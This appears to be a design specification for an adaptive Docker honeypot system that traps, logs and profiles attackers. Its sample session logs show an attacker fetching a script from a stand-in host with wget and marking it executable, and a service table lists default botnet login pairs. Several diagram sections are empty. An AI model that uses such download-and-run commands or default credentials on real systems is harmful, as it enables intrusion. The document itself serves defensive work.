









# Adaptive Deception & Honeypot Architecture Specification

## RakshaSphere
### AI-Powered Autonomous Cyber Defense & Self-Healing Network Platform

> **Document Identifier**: `HONEYPOT-ARCH-RAKSHASPHERE-2026-V1.0`  
> **Deception Engine**: `Dynamic Low/Medium-Interaction Docker Honeynet`  
> **Inspired Standards**: `Cowrie, T-Pot, OpenCanary, MITRE ATT&CK, OWASP, NIST SP 800-160`  
> **Classification**: `Official Enterprise Deception Subsystem Specification`

---

## 📑 Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Honeypot Subsystem Overview](#2-honeypot-subsystem-overview)
3. [Architectural Diagrams Library](#3-architectural-diagrams-library)
   - [High-Level Honeypot System Architecture](#31-high-level-honeypot-system-architecture)
   - [Detection-to-Deception Workflow Sequence](#32-detection-to-deception-workflow-sequence)
   - [Traffic Redirection & NAT Pipeline](#33-traffic-redirection--nat-pipeline)
   - [Session Capture & Telemetry Flow](#34-session-capture--telemetry-flow)
   - [Honeynet Container Deployment Topology](#35-honeynet-container-deployment-topology)
   - [Honeypot Session Lifecycle State Diagram](#36-honeypot-session-lifecycle-state-diagram)
4. [Service Emulation Specifications](#4-service-emulation-specifications)
5. [Adaptive Behavior & Dynamic Profile Rotation](#5-adaptive-behavior--dynamic-profile-rotation)
6. [Session Recording & Forensic Telemetry Capture](#6-session-recording--forensic-telemetry-capture)
7. [Adversary Attack Profiling & Behavioral Analysis](#7-adversary-attack-profiling--behavioral-analysis)
8. [Indicators of Compromise (IoC) Extraction Engine](#8-indicators-of-compromise-ioc-extraction-engine)
9. [Threat Intelligence & MITRE Correlation](#9-threat-intelligence--mitre-correlation)
10. [AI Inference Engine Integration](#10-ai-inference-engine-integration)
11. [SOC Operations Console Integration](#11-soc-operations-console-integration)
12. [Database Schema & Data Model](#12-database-schema--data-model)
13. [Container Security, Sandboxing & Containment](#13-container-security-sandboxing--containment)
14. [Structured Logging Strategy](#14-structured-logging-strategy)
15. [Error Handling & Fail-Safe Mechanisms](#15-error-handling--fail-safe-mechanisms)
16. [Performance, Storage & Log Rotation Strategy](#16-performance-storage--log-rotation-strategy)
17. [Deployment & Container Networking Architecture](#17-deployment--container-networking-architecture)
18. [Deception Subsystem Repository Structure](#18-deception-subsystem-repository-structure)
19. [Quality Assurance & Security Testing Strategy](#19-quality-assurance--security-testing-strategy)
20. [Risk Assessment & Mitigation Matrix](#20-risk-assessment--mitigation-matrix)
21. [MVP Scope vs. Future Roadmap](#21-mvp-scope-vs-future-roadmap)

---

## 1. 🎯 Executive Summary

The **RakshaSphere Adaptive Honeypot Subsystem** provides a dynamic deception environment designed to trap, isolate, observe, and profile threat actors in real time.

When the platform's AI Inference Engine flags suspicious reconnaissance or brute-force behavior below high-confidence packet drop thresholds, the orchestrator transparently diverts the adversary's traffic into ephemeral, isolated Docker deception traps.

```
Suspicious Traffic ➔ NAT Redirection ➔ Decoy Container Trap ➔ Session Telemetry Capture ➔ IoC Extraction ➔ Risk Rescore
```

### Core Subsystem Objectives
- **Adversary Deception**: Present realistic, interactive service interfaces (SSH, HTTP, Telnet, FTP) that entice adversaries into revealing TTPs.
- **Forensic Capture**: Log every keystroke, executed shell command, credential attempt, and uploaded malware payload in an isolated database.
- **Zero Production Risk**: Maintain rigid Docker container boundaries (`read_only` root filesystems, unprivileged user execution, `cap_drop: ALL`) to prevent honeypot breakouts.
- **Closed-Loop Intelligence**: Feed extracted Indicators of Compromise (IoCs) and behavioral profiles directly into the AI Engine, Threat Intel Aggregator, and SOC Dashboard.

---

## 2. 🛡️ Honeypot Subsystem Overview

### 2.1 What is an Adaptive Honeypot?
Unlike static honeypots that run fixed software versions on static ports, an **Adaptive Honeypot** dynamically alters its deception posture (banner text, simulated OS versions, trap service types, responsiveness) based on real-time threat telemetry and adversary behavior.

### 2.2 Benefits to RakshaSphere
1. **Low False Positive Signal**: Any connection made to a dedicated honeypot IP or redirected decoy port is inherently suspicious.
2. **Attacker Slowdown**: Keeps threat actors occupied inside isolated sandbox containers, increasing the Mean Time to Attack (MTTA) while the Self-Healing Engine prepares network containment.
3. **Forensic Payload Collection**: Collects zero-day exploit scripts and botnet malware binaries (`wget`/`curl` downloads) for offline static analysis.

### 2.3 Threat Model & Operational Constraints
- **Assumed Adversary Capabilities**: Automated botnets (Mirai, SSH worms), port scanners (Nmap, Masscan), and manual script kiddies.
- **Out of Scope (MVP)**: Advanced Persistent Threat (APT) nation-state actors possessing zero-day container escape exploits.

---

## 3. 📊 Architectural Diagrams Library

### 3.1 High-Level Honeypot System Architecture



---

### 3.2 Detection-to-Deception Workflow Sequence



---

### 3.3 Traffic Redirection & NAT Pipeline



---

### 3.4 Session Capture & Telemetry Flow



---

### 3.5 Honeynet Container Deployment Topology



---

### 3.6 Honeypot Session Lifecycle State Diagram



---

## 4. 💻 Service Emulation Specifications

The MVP deployment supports four primary low/medium-interaction service emulators:

| Service Profile | Emulated Stack | Targeted Port | Realism & Behavior | Captured Forensic Data |
| :--- | :--- | :--- | :--- | :--- |
| **SSH Trap** | Cowrie Architecture | `22` (Mapped `2222`) | Medium interaction; fake Debian/Ubuntu bash environment with virtual filesystem. | Username/password attempts, executed shell commands, `wget`/`curl` downloaded malware binaries. |
| **HTTP Web Trap** | Custom Python Flask | `80` / `443` (Mapped `8080`)| Low-Medium interaction; emulates vulnerable Router Admin UI, WordPress login, and SQLi traps. | User-Agent strings, HTTP GET/POST headers, SQL injection strings, file upload payloads. |
| **Telnet Trap** | Mirai Decoy Protocol | `23` (Mapped `2323`) | Low interaction; emulates busybox IoT terminal interfaces targeted by botnets. | Default credential pairs (`root:xc3511`, `admin:admin`), architecture probe commands. |
| **FTP Trap** | pyftpdlib Emulation | `21` (Mapped `2121`) | Low interaction; emulates anonymous FTP server with fake sensitive directory listings. | Anonymous login attempts, `STOR` upload requests, `RETR` download requests. |

---

## 5. 🎭 Adaptive Behavior & Dynamic Profile Rotation

To hinder attacker fingerprinting, RakshaSphere dynamically adjusts deception parameters:

1. **Banner Rotation Engine**: Every 24 hours, or upon receiving continuous probes from the same subnet, the trap manager updates service SSH version strings (e.g., alternating between `OpenSSH_7.9p1 Debian-10` and `OpenSSH_8.9p1 Ubuntu-3`).
2. **Configurable Deception Profiles**:
   - **Profile A (Default Enterprise)**: Emulates Ubuntu 22.04 LTS Web Server.
   - **Profile B (Legacy Infrastructure)**: Emulates Debian 9 server running vulnerable Apache 2.4.
   - **Profile C (IoT Gateway)**: Emulates ARM-based Embedded Linux Gateway.
3. **Session-Specific Delays**: Introduces artificial latency ($100\text{ms} - 500\text{ms}$) during credential verification to simulate real system processing.

---

## 6. 📝 Session Recording & Forensic Telemetry Capture

Every attacker interaction is assigned a unique `session_id` (UUID v4) and recorded in structured JSON format:

```json
{
  "sessionId": "trap-sess-8921-4f2b",
  "attackerIp": "198.51.100.42",
  "attackerPort": 49152,
  "targetService": "SSH",
  "honeyPort": 2222,
  "startTimestamp": "2026-08-02T15:22:01.104Z",
  "credentialsAttempted": [
    { "user": "root", "pass": "123456", "time": "15:22:03Z" },
    { "user": "admin", "pass": "admin123", "time": "15:22:05Z" }
  ],
  "commandsExecuted": [
    "uname -a",
    "cat /etc/issue",
    "wget http://malicious-repo.org/payload.sh -O /tmp/payload.sh",
    "chmod +x /tmp/payload.sh"
  ],
  "downloadedFiles": [
    {
      "filename": "payload.sh",
      "sizeBytes": 4096,
      "sha256": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"
    }
  ]
}
```

---

## 7. 🕵️ Adversary Attack Profiling & Behavioral Analysis

Captured sessions are parsed to map adversary behaviors against the **MITRE ATT&CK Framework**:



---

## 8. 🎯 Indicators of Compromise (IoC) Extraction Engine

The Honeypot Subsystem automatically extracts five types of Indicators of Compromise (IoCs):

1. **IPv4 / IPv6 Addresses**: Originating attacker source IP addresses.
2. **Domain Names**: External domains referenced in `wget`/`curl` command strings.
3. **Payload File Hashes**: Cryptographic SHA-256 hashes of malware binaries uploaded to decoy containers.
4. **Credential Pairs**: Dictionaries of usernames and passwords used during brute-force attempts.
5. **HTTP User-Agents**: Custom scanner headers (e.g., `Nmap Scripting Engine`, `Nikto/2.1.6`).

---

## 9. 🌐 Threat Intelligence & MITRE Correlation

Extracted IoCs are automatically cross-referenced against external APIs and internal threat databases:

```mermaid
flowchart TD
    A[Extracted SHA-256 Payload Hash] --> B[Check Local Redis Threat Cache]
    B -->|Cache Hit| C[Attach Cached Reputation Metric]
    B -->|Cache Miss| D[Query VirusTotal API v3 /files/{hash}]
    D --> E[Retrieve Positive Detection Count]
    E --> F[Store Result in Redis - TTL 24h]
    F --> G[Update Threat Score in Database]
```

---

## 10. 🧠 AI Inference Engine Integration

Forensic telemetry extracted from honeypot sessions is returned to the AI Engine to update model confidence and risk scoring metrics:



---

## 11. 🖥️ SOC Operations Console Integration

The Next.js SOC Console features a dedicated **Deception Inspection Console** (`app/(dashboard)/honeypots/page.tsx`):
- **Live Session Feed**: Shows active decoy containers, target services, and attacker source IPs.
- **Real-Time Keystroke Terminal**: Terminal emulator component streaming attacker commands as they type using WebSockets (`/topic/honeypot`).
- **Forensic Download Vault**: Allows security analysts to view captured payload hashes and safely export malicious binaries.

---

## 12. 🗄️ Database Schema & Data Model

The Deception Subsystem uses three relational tables within the MySQL database:



---

## 13. 🔒 Container Security, Sandboxing & Containment

To prevent an adversary from breaking out of a honeypot container onto the host system:

> [!CAUTION]
> Honeypot containers MUST NEVER run with root privileges or mount the host Docker socket (`/var/run/docker.sock`).

1. **Read-Only Root Filesystem**: Docker containers run with `--read-only` root filesystems. Temporary files are restricted to `tmpfs` RAM mounts (`/tmp`, `/run`).
2. **Capability Stripping**: All Linux kernel capabilities are explicitly dropped (`--cap-drop=ALL`).
3. **Resource Limits**: Containers are constrained to `512MB` RAM and `0.5 CPU` core to prevent resource exhaustion attacks (e.g., crypto-mining).
4. **Isolated Bridge Network**: Honeypots execute within a isolated Docker bridge network (`192.168.100.0/24`) with strict `iptables` FORWARD rules blocking outbound network connections to internal production subnets.

---

## 14. 📝 Structured Logging Strategy

Deception events are logged in structured JSON format via Logback (`honeypot.json`):

```json
{
  "timestamp": "2026-08-02T15:22:05Z",
  "logLevel": "INFO",
  "subsystem": "DECEPTION_ENGINE",
  "sessionId": "trap-sess-8921-4f2b",
  "event": "COMMAND_EXECUTED",
  "attackerIp": "198.51.100.42",
  "command": "wget http://malicious-repo.org/payload.sh",
  "sha256": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"
}
```

---

## 15. 🚨 Error Handling & Fail-Safe Mechanisms

- **Container Launch Failure**: If a Docker honeypot fails to instantiate within 2.5 seconds, the backend falls back to an immediate `iptables` connection drop.
- **Session Timeout Enforcement**: Idle connections are forcefully terminated after 300 seconds of inactivity to free container resources.
- **Storage Exhaustion Shield**: If local forensic storage exceeds 80% capacity, captured file payload recording is temporarily disabled while logging command text strings continues.

---

## 16. ⚡ Performance, Storage & Log Rotation Strategy

- **Max Concurrent Sessions**: Capped at 50 concurrent active honeypot sessions per gateway node.
- **Log Rotation**: Session command logs rotated daily using `logrotate` with 30-day retention.
- **Payload Sanitization**: Downloaded malware files are stored in an encrypted vault directory (`/var/raksha/vault/`) with `.quarantine` extensions to prevent accidental execution.

---

## 17. 🐳 Deployment & Container Networking Architecture

```dockerfile
# Production Cowrie SSH Honeypot Container Blueprint Pattern
FROM cowrie/cowrie:latest

USER cowrie
WORKDIR /home/cowrie/cowrie-git

# Expose internal decoy SSH port
EXPOSE 2222

# Health check probe
HEALTHCHECK --interval=30s --timeout=5s \
  CMD nc -z 127.0.0.1 2222 || exit 1
```

---

## 18. 📁 Deception Subsystem Repository Structure

```
backend/src/main/java/com/rakshasphere/
├── controller/
│   └── HoneypotController.java      # REST API endpoints for honeypot telemetry
├── service/
│   ├── HoneypotTrapManager.java     # Docker API socket client & container launcher
│   ├── NatRedirectorService.java    # Host iptables PREROUTING NAT controller
│   └── ForensicParserService.java   # Keystroke parser & IoC extractor
├── model/entity/
│   ├── HoneypotSession.java         # JPA entity for active sessions
│   ├── HoneypotCommand.java         # JPA entity for captured commands
│   └── CapturedPayload.java         # JPA entity for malware hashes
└── repository/
    ├── HoneypotSessionRepository.java
    └── HoneypotCommandRepository.java
```

---

## 19. 🧪 Quality Assurance & Security Testing Strategy

1. **Fingerprinting Audits**: Scanned using Nmap (`nmap -sV -A`) to verify decoy services present realistic banner signatures without leaking Docker metadata.
2. **Escape Vulnerability Scans**: Automated security scans verifying container isolation and `read_only` filesystem enforcement.
3. **NAT Redirection Verification**: Automated unit tests confirming `iptables` PREROUTING rules correctly route port 22 to port 2222.

---

## 20. ⚠️ Risk Assessment & Mitigation Matrix

| Risk Domain | Identified Risk | Impact | Architectural Mitigation Strategy |
| :--- | :--- | :--- | :--- |
| **Container Escape** | Attacker exploits zero-day vulnerability to break out of Docker trap onto host OS. | Critical | Enforce `--read-only` filesystems, drop all Linux capabilities (`--cap-drop=ALL`), and execute as non-root user `nobody`. |
| **Adversary Fingerprinting** | Attacker recognizes honeypot environment and alters behavior. | Medium | Implement dynamic banner rotation and custom delay timings ($100 - 500\text{ms}$). |
| **Storage Exhaustion** | Attacker floods decoy container with massive payload uploads. | High | Set 10MB per-file upload caps and enforce container disk quotas. |
| **Outbound Pivot Attack** | Attacker uses compromised honeypot to attack external internet targets. | Critical | Strict `iptables` FORWARD rules blocking outbound network connections from deception subnet. |

---

## 21. 🔮 MVP Scope vs. Future Roadmap

| Subsystem Feature | Minimum Viable Product (MVP) | Future Engineering Scope |
| :--- | :--- | :--- |
| **Emulated Services** | Low/Medium interaction SSH, HTTP, Telnet, FTP. | High-interaction Windows/Linux QEMU VMs & Industrial Modbus/MQTT traps. |
| **Traffic Diversion** | Host-based `iptables` PREROUTING NAT redirection. | eBPF XDP-based hardware NAT steering at the NIC driver layer. |
| **Session Analysis** | Regex pattern matching for IoC extraction & MITRE mapping. | LLM-assisted natural language session summarization (Llama 3 / Mistral). |
| **Profile Rotation** | Static daily banner rotation config files. | Reinforcement learning (RL) automated profile rotation based on adversary responses. |
